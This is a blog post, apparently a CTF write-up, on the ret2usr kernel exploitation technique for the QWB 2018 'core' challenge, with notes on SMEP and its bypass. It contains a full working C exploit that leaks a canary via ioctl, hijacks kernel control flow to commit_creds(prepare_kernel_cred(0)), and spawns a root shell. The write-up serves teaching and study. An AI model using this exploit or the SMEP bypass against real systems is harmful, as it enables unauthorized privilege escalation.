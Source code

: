 ```yaml
---
layout: post
title: "ret2usr - 强网杯2018 - core"
date: 2022-07-11
description: ""
category: 
tags: []
---
```

* TOC
{:toc}


## ret2usr

[Attachment](https://github.com/hai119/QWB2018---core)

The ret2usr (return-to-user) attack leverages the fact that **userspace processes cannot access kernel space, but kernel space can access user space** to direct kernel code or data streams to user controls and execute user space code with the `ring 0` privilege to complete operations such as privilege escalation.

This vulnerability analysis is consistent with the [Kernel ROP](https://mudongliang.github.io/2022/07/07/%E5%BC%BA%E7%BD%91%E6%9D%AFCTF-core.html), the difference is that here we construct `commit_creds(prepare_kernel_cred(0))` in user space through the function pointer for privilege escalation. Although the function is in kernel space, at this point we are in ring0 privilege and can execute normally. 

It is worth noting that here the function pointer can be constructed based on the function prototypes of **prepare_kernel_cred()** and **commit_creds()**. Although the return value of **prepare_kernel_cred()** and the argument of **commit_creds()** is a pointer to a `cred_entry` structure, its essence is still a pointer. So the return value and argument are essentially a memory address, and neither the char pointer nor the **cred_entry** structure pointer is eight bytes.

```c
  67   │ void Getroot()
  68   │ {
  69   │     char* (*pkc)(int) = prepare_kernel_cred_addr;
  70   │     void (*cc)(char*) = commit_creds_addr;
  71   │     (*cc)((*pkc)(0));
  72   │ }
```

Then we only need to fill in the return address with the privilege escalation function address, rather than construct the ROP chain in the kernel space.

Compared to these two methods, we could conclude that ret2usr is easier than ROP.  Because it is generally much easier to construct purpose-specific code in user space than in kernel space.

```c
 102   │     for(i = 0; i < 10; i++)
 103   │     {
 104   │         rop[i] = canary;
 105   │     }
 106   │     rop[i++] = (size_t)Getroot;
 107   │     rop[i++] = swapgs;
 108   │     rop[i++] = 0;
```

exp:

```c
#include <string.h>
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>
#include <sys/stat.h>
#include <sys/types.h>
#include <sys/ioctl.h>

#define CORE_READ 0x6677889B
#define CORE_OFF 0x6677889C
#define CORE_COPY 0x6677889A

size_t vmlinux_base,commit_creds_addr,prepare_kernel_cred_addr;
size_t user_cs,user_ss,user_sp,user_rflags;
size_t raw_vmlinux_base = 0xffffffff81000000;

void save_status()
{
	__asm__(
		"mov user_cs, cs;"
		"mov user_ss, ss;"
		"mov user_sp, rsp;"
		"pushf;"
		"pop user_rflags"
	);
}

void GetShell() {
    if (!getuid()) {
        system("/bin/sh");
    }
    else {
        puts("[-] CAN NOT GETSHELL.");
        exit(1);
    }
}

int find_symbols()
{
	char *ptr;
	char buf[0x40];
	FILE* fd = fopen("/tmp/kallsyms","r");
	if(!fd)
	{
		printf("[-] Open /tmp/kallsyms ERROR.\n");
		return 0;
	}
	while(fgets(buf,sizeof(buf),fd))
	{
		if(commit_creds_addr && prepare_kernel_cred_addr)
			return 1;
		if (strstr(buf, "commit_creds")) 
		{
            commit_creds_addr = strtoull(buf, &ptr, 16);
			printf("[+] Find: commit_creds: 0x%llx\n",commit_creds_addr);
        }
        if (strstr(buf, "prepare_kernel_cred")) 
		{
            prepare_kernel_cred_addr = strtoull(buf, &ptr, 16);
			printf("[+] Find: prepare_kernel_cred: 0x%llx\n",prepare_kernel_cred_addr);
        }
	}
	return 0;
}

void Getroot()
{
	char* (*pkc)(int) = prepare_kernel_cred_addr;
	void (*cc)(char*) = commit_creds_addr;
	(*cc)((*pkc)(0));
}

int main()
{
    save_status();
	int f=find_symbols();
	if(!f)
	{
		printf("[-]Find Symbols ERROR.\n");
		exit(0);
	}
	
	vmlinux_base = commit_creds_addr - 0x9c8e0;
	size_t offset = vmlinux_base - raw_vmlinux_base;
	size_t swapgs = 0xffffffff81a012da + offset;	//swapgs; popfq; ret;
	size_t iretq = 0xffffffff81050ac2 + offset;     //iretq; ret;
	size_t rop[0x100];
	char user_buf[0x40] = {0};
    int i;

	int fd = open("/proc/core", O_RDWR);
    if (!fd) {
        puts("[-] OPEN /proc/core ERROR.");
        exit(0);
    }
	ioctl(fd, CORE_OFF, 0x40);
    ioctl(fd, CORE_READ, user_buf);  //leak canary
	size_t canary = ((size_t *)user_buf)[0];
    printf("[+] Find canary: 0x%llx\n", canary);

    for(i = 0; i < 10; i++)
    {
        rop[i] = canary;
    }
	rop[i++] = (size_t)Getroot;
	rop[i++] = swapgs;
	rop[i++] = 0;
	rop[i++] = iretq;
    rop[i++] = (size_t)GetShell;
    rop[i++] = user_cs;
    rop[i++] = user_rflags;
    rop[i++] = user_sp;
    rop[i++] = user_ss;
	
	write(fd, rop, sizeof(rop));
	ioctl(fd, CORE_COPY, 0xffffffffffff0000|0x100);
	return 0;
}
```

## Prevention

### SMEP

Initially, when executing code in the kernel mode, it is possible to execute the code in the user space directly. Since the code in the user space is controllable by the attacker, it is easier to execute the attack. To prevent such attacks, researchers propose that code in the user state can't be executed when located in the kernel mode.

**Supervisor Memory Execute Protection (SMEP)** is a kernel security mechanism present in  Broadwell and later Intel CPUs. SMEP could prevent the kernel running in ring 0 from executing code that is user accessible. If the CPU is running in the ring0 mode, executing a code in user space will trigger a page fault. SMEP is similar to NX, but SMEP is in the kernel mode and NX is in the user mode. Like NX, SMEP requires processor support, which can be checked by `cat /proc/cpuinfo`.

### Bypass

Once we control the execution flow, we could execute gadgets in the kernel to modify the `CR4` register. After setting the `CR4` register to 0 in bit 20, we could execute the user space code in kernel mode. In general, we will use `0x6f0` to set the `CR4` register to close SMEP.

## Reference

[1] https://ctf-wiki.org/pwn/linux/kernel-mode/exploitation/rop/

[2] https://unix.stackexchange.com/questions/5518/what-is-the-difference-between-the-following-kernel-makefile-terms-vmlinux-vml

[3] https://blog.csdn.net/gatieme/article/details/78311841

[4] https://www.anquanke.com/post/id/258874

[5] https://dangokyo.me/2019/01/27/linux-kernel-exploitation-part-3-ret2usr-and-smep/